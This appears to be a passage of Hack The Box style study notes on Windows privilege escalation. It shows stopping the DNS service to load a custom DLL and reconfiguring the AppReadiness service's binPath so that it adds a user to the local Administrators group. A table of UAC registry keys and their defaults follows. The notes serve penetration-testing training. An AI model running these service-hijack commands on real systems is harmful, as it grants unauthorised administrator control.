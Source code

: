 Check out the `Windows Fundamentals` module for an explanation of SDDL syntax in Windows.

#### Stopping the DNS Service

After confirming these permissions, we can issue the following commands to stop and start the service.

```cmd
C:\htb> sc stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
```

The DNS service will attempt to start and run our custom DLL, but if we check the status, it will show that it failed to start correctly (more on this later).


### Server Operators
```cmd
C:\htb> sc qc AppReadiness
```

```cmd
C:\htb> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

```cmd
C:\htb> sc start AppReadiness

[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```
> Here, failing is expected

|Group Policy Setting|Registry Key|Default Setting|
|---|---|---|
|[User Account Control: Admin Approval Mode for the built-in Administrator account](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-admin-approval-mode-for-the-built-in-administrator-account)|FilterAdministratorToken|Disabled|
|[User Account Control: Allow UIAccess applications to prompt for elevation without using the secure desktop](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-allow-uiaccess-applications-to-prompt-for-elevation-without-using-the-secure-desktop)|EnableUIADesktopToggle|Disabled|
|[User Account Control: Behavior of the elevation prompt for administrators in Admin Approval Mode](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-behavior-of-the-elevation-prompt-for-administrators-in-admin-approval-mode)|ConsentPromptBehaviorAdmin|Prompt for consent for non-Windows binaries|
|[User Account Control: Behavior of the elevation prompt for standard users](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-behavior-of-the-elevation-prompt-for-standard-users)|ConsentPromptBehaviorUser|Prompt for credentials on the secure desktop|
|[User Account Control: Detect application installations and prompt for elevation](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-detect-application-installations-and-prompt-for-elevation)|EnableInstallerDetection|Enabled (default for home) Disabled (default for enterprise)|
|[User Account Control: Only elevate executables that are signed and validated](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-only-elevate-executables-that-are-signed-and-validated)|ValidateAdminCodeSignatures|Disabled|
|[User Account Control: Only elevate UIAccess applications that are installed in secure locations](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-only-elevate-uiaccess-applications-that-are-installed-in-secure-locations)|EnableSecureUIAPaths|Enabled|
|[User Account Control: Run all administrators in Admin Approval Mode](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-run-all-administrators-in-admin-approval-mode)|EnableLUA|Enabled|
|[User Account Control: Switch to the secure desktop when prompting for elevation](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-switch-to-the-secure-desktop-when-prompting-for-elevation)|PromptOnSecureDesktop|Enabled|
|[User Account Control: Virtualize file and registry write failures to per-user locations](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-virtualize-file-and-registry-write-failures-to-per-user-locations)|EnableVirtualization|Enabled|
